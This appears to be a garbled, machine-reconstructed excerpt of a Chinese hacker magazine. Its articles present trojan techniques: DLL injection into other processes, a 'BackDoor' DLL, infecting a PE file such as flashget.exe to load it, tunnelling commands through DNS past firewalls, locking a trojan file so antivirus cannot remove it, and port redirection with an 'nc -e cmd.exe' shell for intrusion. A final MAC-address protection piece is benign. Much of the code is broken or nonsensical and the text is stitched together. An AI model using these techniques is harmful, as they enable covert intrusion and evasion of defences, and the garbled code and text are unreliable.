  setTimeout(ctri, (ctri+i)*4, 1000);
}
```

接着初始化函数：

```javascript
function start() {
  // 以下是注册副本一个账号吧，这里可能会有影响。。
}
```

这里要注意：你需要先复制登录，然后运行这些程序才有用，现在在大部分服务器都设置了自动登录，只需要记住Cookies，可以直接通过Cookies，但这样做有风险，如果遇到问题，服务器就会自动退出，我们可以写一个脚本退出。

## 隐藏的的方法

按照方法来说，分为以下两种：

- 第一类：注册回调：在系统中只有一个运行。

- 第二类：多线程：一个线程是调度的，即使只有一个线程也会在后台运行。

这种方法有几个技巧：

1. 启动方法：如注册回调、替换文件等。

2. 连接：本质上一定使用端口，可以使用各种手段。

3. 注入：并不是首要的，本文讨论这种新的方式，希望能得到理想效果。由于具有隐蔽性，操作系统无法定位它，用这种方式（作者：其实实现并不困难，利用现成的工具，编写一个脚本来标记，而且通过修改注册表来修改文件）。

```javascript
// 使用WriteProcessMemory构造 DLL 完整函数体
// 在目标进程的内存中创建内容
if (!WriteProcessMemory(hProcess, memory, dllPath, strlen(dllPath), NULL)) {
    printf("WriteProcessMemory failed: %lu\n", GetLastError());
    return FALSE;
}

// 复制 DLL入口
LPTHREAD_READ_ROUTINE pStartAddr = (LPTHREAD_READ_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
if (pStartAddr == NULL) {
    printf("LoadLibrary error: %lu\n", GetLastError());
    return FALSE;
}

// 创建线程在目标用户进程中运行
HANDLE hThread;
if (hThread = CreateThread(NULL, 0, pStartAddr, (LPVOID)dllPath, 0, NULL)) {
    WaitForSingleObject(hThread, INFINITE);
    return TRUE;
} else {
    printf("CreateThread error: %lu\n", GetLastError());
    return FALSE;
}
```

不是在目标进程中运行该代码错误，因为“`Library.DLL`”可以成功加载，但在你另外进程中它可能不能，除非你用MinGW Developer Studio编译成VC++：

```cpp
// test.dll
#include <windows.h>
#include <dllex.h>
void* manager() {
    MessageBox(0, "a test", "test", MB_OK);
}
BOOL WINMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, int argc, LPSTR lpCmdLine) {
    switch (dwReason) {
        case DLL_PROCESS_ATTACH:
            MessageBox(0,"DLL_PROCESS_ATTACH",0);
            break;
        default:
            break;
    }
    return TRUE;
}
```

整个过程 `LoadLibrary` -> `GetProcessAddress` -> `CreateThread`，我们在程序中使用 DLL 的函数，这个过程是完全可以的，但是这里有一个问题：如果你想从一个进程加载到另一个进程，这样就要要注意运行顺序，可能会导致出错。给大家举个例子：A DLL `LoadLibrary("A.dll")` -> `GetProcAddress(DLL, "function")`。你自己的 DLL 回调，可以实现一个函数，我们可以用 `GetProcAddress` 找到导出函数给 Backor DLL 回调，Backor DLL 启动 -> `Backor DLL.loadlibrary("A.dll")` -> Backor DLL 中的函数（调用）。

编译后用 DEPENDEX (VC++) 看着，可以看到有一个导出函数；如1所示。

```cpp
// Backor.dll
// 这里的 DLL 名为 Backor，将要测试的 DLL 加载，然后运行 testing.exe；
#include <windows.h>
```

那么我们如何利用这里的 DLL函数呢？各位读者看着



## 任意编写后门

```cpp
void BackDoor() {
    MessageBox(0, "This is BackDoor", "HI", MB_OK);
}

__declspec(dlport) void manager() {
    HANDLE hThread;
    hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)BackDoor, NULL, NULL);
    MessageBox(0, "This is just", "HI", MB_OK);
}

BOOL WINMain(HINSTANCE hInstance, HINSTANCE hModule, LPWORD dwReason, LPVOID lpParam) {
    switch (dwReason) {
        case DLL_PROCESS_ATTACH:
            MessageBox(0,"DLL_PROCESS_ATTACH",0);
            break;
        default:
            break;
    }
    return TRUE;
}
```

## PE结构深度解析

实现原理分为两部分：

1. 增加一个线程

2. 写入代码段

3. 增加一个新段

```cpp
#define CODE_LENGTH 18 // 定义代码长度
#define SECTION_SIZE 0x1000 // 定义节的大小
#define SECTION_NAME "aut" // 定义节的名字
#define FILE_NAME 30 // 定义文件名最大长度

// 参数定义
int align(int size, int ALIGN_BASE) {
    // ...省略部分代码...
}

// 程序段代码...
void usage(void) {
    printf("help: %s\n", argv[0]);
}
```



# PROGRAMMING ANALYSIS

```c
// SizeOf
NtHeader.OptionalHeader.DataDirectory
[IMAGE_DIRECTORY_ENTRY_IMPORT]
VirtualAddress=0;
NtHeader.OptionalHeader.DataDirectory
[IMAGE_DIRECTORY_ENTRY_IMPORT]Size=0;
fseek(pFile, 0, SEEK_END);
newEP = fseek(NtHeader.OptionalHeaderEntryPoint, newEP);
```

```c
// mov pXtra_data, eax;
// mov lea edt, extra_data_end;
// mov sub edi, ecx;
// mov extra_data_real_length, edx;
// mov popad;
```

```c
// 用写入加载钩的动态DLL; length++
for (i = 0; i < extra_data_length; i++) {
    write(pFile, data, pFile);
}
```

```c
// 节定义结束
fseek(pFile,
```

```c
// 用写入原始头部
write(DosHeader.size + sizeof(IMAGE_NT_HEADERS), numSections + sizeof(IMAGE_SECTION_HEADER), i);
SEEK_SET;
```

```c
// 用写入原始头部文件 (NT)
fseek(pFile, NtHeader, SEEK_END);
fwrite(IMAGE_NT_HEADERS, 1, pFile);
```

```c
// 用写入文件目录
fseek(pFile, 0, SEEK_END);
```

```c
// 用写入节表，开始节表
for (i = 0; i < SECTION_SIZE, FILE_ALIGN; i++) {
    ffput(pFile, pFile);
}
```

```c
// 节表创建结束
fseek(pFile, NewSectionHeader.PointerToRawData, SEEK_SET);
```

```c
// 如果不知道如何处理，可以参考 [ShellCode 自动化钩的方法]
go GetDataExtra
extra_data_,
```

```asm
// 分配代码...
ncall eax + 44h // 返回值是
LoadLibrary(的句柄)在内存中
mov eax, eax + 44h // LoadLibrary
的句柄在内存中 +
```

```asm
push 0
// 在进程中跳转 DLL 的基地址，跳转这里
// "Back-Door"
push DWORD PTR 0x66b23642 // "Back
push esp // 伪装“BackDoor”的句柄
pushncall [eax + 44h] // LoadLibrary, 这里
可以使用 eax 可以退出。
mov eax, ebp
add esp, 50h
popad
extra_data_, extra_data_start,
GetDataExtra
push pushed
lea eax, extra_data_start,
```

`MessageBox` 显示一个 MessageBox，测试时大和测试要在同一个目录，程序运行后显示！



| 字段 | 值 |

| :--- | :--- |

| SizeOfRawData | 14100 |

| SizeOfVirtualSize | 14100 |

| SizeOfImage | 14100 |

| SizeOfSectionAlignment | 0x1000 |

| . . . . . . . . . . . . . . . . . . . |

| . . . . . . . . . . . . . . . . . . . . |

| . . . . . . . . . . . . . . . . . . . . |

| . . . . . . . . . . . . . . . . . . . . |

运行 `flashget.exe` 会出现看到我们的 DLL 已经运行了；如果不是，请看下面的图，就是 flashget 的标记。

现在可以看到我们的 DLL 马钩的返回的（感染）`Q.FlashSocket`等任何一个方法的程序，用语言：“pe” target=

```text
target=我们被感染的文件，跳转 BackDoor.
dll(target) 我们可以跳转
如果，target 也会被防火墙允许访问网络，那么 BackDoor 也可以自由地访问网络了。
```





`www.zhihu.com` 2007 华华书出版社 上版

# 穿过防火墙

适合者：编程爱好者，马甲好者

前置知识：无

# Shellporn

记得 zwall 在《一种新的数据穿透防火墙的数据传输技术》中提到过通过直接连接 DNS 查询来实现数据穿透防火墙的技术，基本步骤是：

1. 找目标进程

2. 找 Socket

3. 用 `DuplicateHandle()` 将 `SOCKET` 转换为被自己使用：

由于各种限制，现在无法实现通过 UDP 穿透防火墙的。发现穿透 DNS 查询后，数据包无法穿过防火墙，除非规则如下（如图1 所示）：

不修改 IP Header

但是只要端口是 53 的 UDP 数据就会通过防火墙，能够通过防火墙，却不能通过自己的接口来访问。

| 字段 | 描述 |

| --- | --- |

| 源 IP | 目标 IP |

| 源端口 | 目标端口 |

| 协议 | UDP |

| 长度 | 数据 |

图1

这些数据，我们按照程序作为数据流，通过穿透网卡，对数据进行拦截，如下是拦截的代码：


```cpp
#include <stdio.h>
#include <stdlib.h>
#include <winsock.h>
#include <ip.h>
#include <iphl.h>
#include <string.h>
#include <ws2tcpip.h>
#pragma comment(lib,"ws232.lib") // 链接库

unsigned char *ip; // 4字节 IP 地址
unsigned char *ver; // 4字节版本
unsigned char *tos; // 8字节 TTL
unsigned short *total_len; // 16字节长度(包含头部)
unsigned short *id; // 16字节标识符
unsigned short *frag_offset; // 3字节偏移
unsigned char ttl; // 8字节时间
unsigned char proto; // 8字节协议(TCP 或 UDP)
unsigned short checksum; // 2字节校验
unsigned int src; // 4字节源地址
unsigned int dest; // 4字节目的地址

// IP Header: 20字节
typedef struct UDPHeader {
    unsigned short srcPort; // 2字节端口
    unsigned short destPort; // 2字节端口
    unsigned short len; // 2字节长度
    unsigned short checksum; // 2字节校验
} UDPHeader; // 定义 UDP头部

typedef struct _Packet {
    unsigned long id; // 标识，用于穿透作为客户端发现的包
    char cmd[256]; // 命令行
} _Packet;

int main(int argc, char *argv[]) {
    if(argc < 2) { // 参数不对
        printf("用法:%s <ip>\n", argv[0]);
        return 0;
    }
    sprintf("正在连接 %s...\n", argv[1]);
    return 0;
}

// 连接服务器
HWND hwnd = GetForegroundWindow();
if(hwnd == NULL) {
    printf("错误：n");
    return 0;
}
WSAData wsaData;
WSAStartup(MAKEWORD(2,2), &wsaData);
SOCKET sock = socket(AF_INET, SOCK_RAW, IPPROTO_IP); // 创建套接字
struct sockaddr_in addr;
addr.sin_family = AF_INET;
addr.sin_addr = inet_addr(argv[1]);
connect(sock, (struct sockaddr *)&addr, sizeof(addr));
bool flag = true;
char *host[256]; // 发送包
gethostbyname(argv[2]);
struct hostent *host = gethostbyname(argv[2]);
struct sockaddr_in local_addr;
local_addr.sin_family = AF_INET;
local_addr.sin_addr.s_addr = *(in_addr *)host->h_addr[0];
memcpy(local_addr.sin_addr.s_addr, host->h_addr_list[0], host->h_length_len);
bind(sockfd, (struct sockaddr *)&local_addr, sizeof(local_addr));
setsockopt(sockfd, SOL_SOCKET, SO_SNDTIMEO, (char *)&DS, sizeof(DS)); // 设置连接超时
char buffer[65535];
if (WSALastError()!=0) {
    printf("产生错误:%d\n", WSALastError());
    closesocket(sockfd);
    WSACleanup();
}
printf("正在连接服务器...\n");
if (connect(sockfd, (struct sockaddr *)&remote_addr, sizeof(remote_addr))!=0) {
    printf("连接失败:%s\n", strerror(errno));
    return 1;
}
gethostbyname(hostname);
memcpy(remote_addr.sin_addr.s_addr, host->h_addr_list[0], host->h_length_len);
remote_addr.sin_family = AF_INET;
remote_addr.sin_port = htons(80);
if (connect(sockfd, (struct sockaddr *)&remote_addr, sizeof(remote_addr))!=0) {
    printf("连接失败:%s\n", strerror(errno));
    return 1;
}
closesocket(sockfd);
WSACleanup();
return 0;
IPHeader *ip = (IPHeader *)buffer; // 构造IP头部
ip->proto = htons(message); // 发送一个数据包
if (send(sockfd, message, strlen(message), 0)<0) {
    printf("发送失败:%s\n", strerror(errno));
    return 1;
}
printf("发送成功！\n"); // 发送成功
```

这里要说明的是Windows XP是支持IP栈的，所以处理顺序可以很好的在Windows XP通过DNS解析数据来执行命令的发送了，具体实现如下：

```c
#include <stdlib.h>
#include <winsock.h>
#pragma comment(lib,"ws2_32.lib")
// 反向连接命令
struct _CMDSHELL {
    unsigned long id;
    char cmd[256]; // 命令字符串
} CMDSHELL;
int main(int argc, char *argv[]) {
    if(argc!=2) { // 参数个数不对
        printf("用法:%s <命令>\n", argv[0]);
        return 0;
    }
    printf("正在执行:%s...\n", argv[1]);
}
```

有了以上知识，就可以执行一个运行，然后客户端就可以发送命令。如图2所示。


# PROGRAMMING ANALYSIS

## 用 `CreateFile` 防止杀毒

杀毒软件是一个难题。防止木马分为两个方面：

1. 不被发现，特征太大了，可以修改特征、加壳等。

2. 不被拦截，这是本文介绍的方法。如如此，我们知道程序运行的时候是不允许的，我们有一个策略可以尝试：由于自己创建的木马自然不能被拦截，但如果木马被拦截了，那么可以重命名。如果我们的木马在运行过程中，被杀毒软件拦截了，我们就先重命名，如果重命名成功后木马就可以运行。这就是这样的策略。

```cpp
char name[256];
HANDLE hfile;
printf("Enter the file name: ");
scanf("%s", name);
hfile = CreateFile(name, GENERIC_READ, FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
if (hfile == INVALID_HANDLE_VALUE) {
    printf("%d\n", GetLastError());
}

    CloseHandle(hfile);
}
return 0;
scanf("%s", name);
```

正如“小技巧”，我们可以用这些招数：防止木马被重命名，然后，所有操作都要加上方案。我们需要一个API：`CreateFile`

```c
HANDLE CreateFile(
LPCSTR lpFileName,
DWORD dwShareMode,
LPSECURITY_ATTRIBUTES lpSecurityAttributes,
DWORD dwCreationDisposition,
DWORD dwFlagsAndAttributes,
HANDLE hTemplateFile)
```

对于我们的木马的第三个参数`dwShareMode`，总有3种方法：`FILE_SHARE_DELETE`, `FILE_SHARE_READ`, `FILE_SHARE_WRITE`，其中`FILE_SHARE_READ`可以有效地保护我们的木马被拦截和重命名，简单写一个简易的测试程序如下：

```cpp
int main()
{
```



运行后文件名变为`hashget.exe`，尝试删除或者重命名`hashget.exe`，结果失败了，如图所示！如何有效地利用事实上的执行结果呢？假设我们的DLL被拦截了，那么就需要修改DLL的代码。在你的DLL木马中多写一个，然后通过`CreateFile`将自己替换为另一个exe的过程中，如`SVCHO.EXE`，该代码就用`FILE_SHARE_READ`打开你的木马，同时保持文件不被拦截，运行程序部分都写好了，到处就是这里被拦截了。现在我们的木马没有了内核的限制，是不是了？本次实战：Windows XP SP2

## 轻松编写Socket定向程序

文/ Blk

适合读者：编程爱好者，新手爱好者

前置知识：网络编程

在潜网内或防火墙内入侵时，端口定向程序我们可以像钓鱼一样，轻松编写这些程序，大家对于`AngleShell`、`lcx`、`fpipe`等端口定向程序可能不会失败，其中一部分通过连接到本机来实现（当然有足够的权限），可以将端口定向实现对本体的某一个端口。假设目标机器位于防火墙内，外面又开放了80端口并且已经关闭了终端连接，我们需要定向如下：

在目标上建立两个`Socket`，`Socket1`监听80端口，当有连接到来，`Socket2`连接3389端口，`Socket1`接收的连接通过`Socket2`连接，这种方法可以让目标机器从8389端口来定向。

程序中需要两个`Socket`，我们不能在一个`Socket`中使用常用的`Select()`来实现多路复用，否则我们使用了`Select()`的`fd_set`来实现：

```c
int select(int nfds, fd_set *readfds, fd_set *writefds, fd_set *exfds, struct timeval *timeout);
读取从打开的文件描述符中的数据：usereadfd
写入到打开的文件描述符中的数据：usewritefd
检查是否有发生事件的集合
```

在参数中我们常用的`Select()`的返回值是在Series中心。当`timeout`设置为`NULL`，`Select`将阻塞；如果设置了`timeout`将等待，否则`fd_set`是可以修改的。此外还有一个参数是必须指定的`fdset`：

```c
void FD_SET(int fd, fd_set *set); // 将Socket加入fd_set
void FD_CLR(int fd, fd_set *set); // 将Socket从fd_set中移除
void FD_ZERO(fd_set *set); // 将Socket和fdset清零
```

```c
int FD_ISSET(int fd, fd_set *set); // 判断Socket是否在fdset中
```

下面来看如何使用`Select`的用法，在Series中心中使用`Select`的示例，如图1。在本例中

```cpp
fd_set fdr;
FD_ZERO(&fdr);
FD_SET(sockfd1, &fdr);
FD_SET(sockfd2, &fdr);
ret=Select(2, &fdr, NULL, NULL, NULL); // Select返回值，错误返回值类型：
```


服务端参数：

客户端接收参数：

```c
int ret=select((conn->sock),2,NULL,NULL,NULL);
if(ret<=0) return -1;
FD_SET((conn->sock),&fd); // 检查socket可读数据
char buffer[1024];
int len=recv((conn->sock),buffer,1024,0);
if(len<=0) return 0;
buffer[len]=0;
printf("local:%s\n",conn->local);
send(conn->sock,buffer,len,0); // 将读到的数据描述符通过sock发送
```

```c
SOCKET sock=accept(lock,NULL,NULL);
socket_sock-sock=socket(AF_INET,SOCK_STREAM,0);
struct sockaddr_in cli;
cli.sin_family=AF_INET;
cli.sin_port=htons(atoi(argv[2]));
cli.sin_addr.s_addr=inet_addr(argv[1]);
connect(sock,(struct sockaddr *)&cli,sizeof(cli));
struct STRUCT_TOCK twock;
sock=lock=sock;
```

```c
FD_SET((conn->sock),&fd); // 检查socket可读数据
char buffer[1024];
int len=recv((conn->sock),buffer,1024,0);
if(len<=0) return 0;
buffer[len]=0;
printf("local:%s\n",conn->local);
send(conn->sock,buffer,len,0); // 将读到的数据描述符通过sock发送
```

```c
HANDLE h=CreateThread(NULL,0,LPTHREAD_START_ROUTINE)handler,(NULL,twock,0); // 创建线程，让两个线程负责数据的交换
// 串行
WaitForSingleObject(h,INFINITE); //等待线程执行完毕
CloseHandle(h);
```

```c
return 0;

int main(int argc, char *argv[]) {
    if(argc<4) return 1;
    printf("***connected***\n");
    printf("by %s\n",argv[1]);
    printf("port:67311\n",argv[2]);
    printf("email:%s\n",argv[3]);
    printf("remoteport:%s\n",argv[4]);
    printf("remote 4470 172.18.27.65:80\n");
    printf("remote 80 127.0.0.1:3389\n");
    return 0;
}
```

以上程序在Windows XP2，Visual C++ 6.0下运行。

查看运行结果怎么样，我们使用Wireshark 2.3 查看。

Client 端口所示：

```bash
nc -l 23 -e cmd.exe，用于模拟
```


```c
WSADATA data;
if(WSAStartup(MAKEWORD(2,2),&data) !=SOCKET_ERROR) return 0; // 初始化winssock
struct sockaddr_in addr;
addr.sin_family=AF_INET;
addr.sin_port=htons(atoi(argv[2]));
addr.sin_addr.s_addr=INADDR_ANY;
sock=socket(AF_INET,SOCK_STREAM,0);
if(sock==SOCKET_ERROR) return 0;
if(bind(sock,(struct sockaddr *)&addr,sizeof(addr))!=SOCKET_ERROR) {
    printf("error%% %d\n",WSAGetLastError()); return 0;
} // 端口已被占用，退出
listen(sock,5);
printf("local port: %s\n",argv[2]);
fd_set fd;
FD_ZERO(&fd);
FD_SET(sock,&fd);
ret=select(1,+1,&fd,NULL,NULL);
if(ret<=0) return -1;
if(ret==1) //有新连接请求
```

然后进行端口重定向 123 127.0.0.1 233。

图3所示：




使用`nc`连接机器的234端口就获得了一个Shell：

如图4所示：


最后，将目标机器重定向到本地的234端口，注意：如果使用`cmd.exe`，将目标机器的端口重定向到本地的端口。程序运行后上述的程序还需要配合。通过这个过程的学习发现这个程序非常简单。

# PROGRAMMING ANALYSE

适合者：系统管理员、初学者、爱好者

前置知识：C#、Python、网络者

## 我的电脑：MAC地址防护程序

文/刘汤芳

单位的学生理解系统是ASNET的，我很担心法人权限，为了方便管理，由于客户端主机的IP是固定的，由于只是允许管理员访问成绩的页面的，数据并不多，我打算把所持有的MAC地址和IP计算存入数据库，对于一对IP-MAC对，两个电脑都能时正常可以访问，若只修改MAC，并且可以方便我们拦截非法操作。这些方法，我尝试过后，发现了一个新问题：当想要防止非法操作时，这种情况下只修改MAC，对于前者可以运行，但是后者，非法操作可以修改IP-MAC，让第二个电脑访问MAC就被拦截了。

### 方案

服务器端：实现客户端服务

使用`System.Net.Sockets` // 使用动态池，这里创建一个为了方便客户端并发，需要使用`DllImport`委托用于访问网络的函数

```csharp
[DllImport("iphlpapi.dll")]
public static int SendARP(int destIP, int scIP, byte[] mac); // 发送ARP

private static extern int intaddr(object sender);
private void Button_Click(object sender, EventArgs e) {
    string clientIP = Request.Host.RemoteAddr; // 获取IP
    LabelIP.text = clientIP; // 获取显示的IP
    Int32 localAddr = intaddr(clientIP); // 获取客户端的目的IP
    Int32 hostAddr = intaddr("192.168.1.108"); // 本地的IP
}
```


我的浏览器



| MAC | 192.168.1.108 |
| :--- | :--- |
| 00-14-D2-A1-B3-D1 | ... |

当尝试访问时，1. 拦截IP；2. 修改MAC；3. 同时修改IP和MAC。

情况1：非法操作如下：选择“连接”的属性，如图所示。进入网络设置，修改了IP，如图所示。

情况2：非法操作者如下：选择本地的“属性”如图所示。选择属性修改网卡。

 图2

 图3

 图4

第88期 软件极客精华丛

PROGRAMMING Analyse

(socket) hacker@hacker.com

 属性如图所示。

在选项卡中'Network Address'属性：

```csharp
ManagementClass mac = new managementClass("Win32_NetworkAdapterConfiguration");
ManagementObject mmac = mac.GetInstances();
foreach(ManagementObject obj in mmac) {
    if((bool)obj["Enabled"]) {
        mmac = (string)obj["MACAddress"].ToString();
    }
}
```

值是不存在的非法操作在'值'中选择输入一个MAC找到MAC的目的的


MAC地址存储在网卡中的写入到EEPROM并且在`Timer.Elapsed`事件添加

